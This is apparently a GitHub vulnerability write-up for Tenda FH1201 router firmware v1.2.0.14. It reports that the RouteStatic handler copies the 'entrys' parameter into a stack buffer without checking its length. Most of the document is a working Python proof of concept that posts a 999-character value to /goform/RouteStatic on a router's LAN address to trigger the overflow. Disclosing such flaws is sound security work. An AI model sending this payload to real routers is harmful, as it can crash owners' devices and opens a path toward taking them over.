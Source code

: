 # RouteStatic

Firmware download website:https://www.tendacn.com/download/detail-3322.html

### Vulnerability details

Tenda FH1201 v1.2.0.14 has a stack overflow vulnerability located in the RouteStatic function.Without checking the length of the parameter var, it was assigned to stackspace v6

![image-20240724093358376](./image-20240724093358376.png)



### poc

```python
import requests

ip = '192.168.74.145'

url = f"http://{ip}/goform/RouteStatic"

data = {"entrys": "a"*999}

ret = requests.post(url, data)
```

![image-20240724093713313](./image-20240724093713313.png)

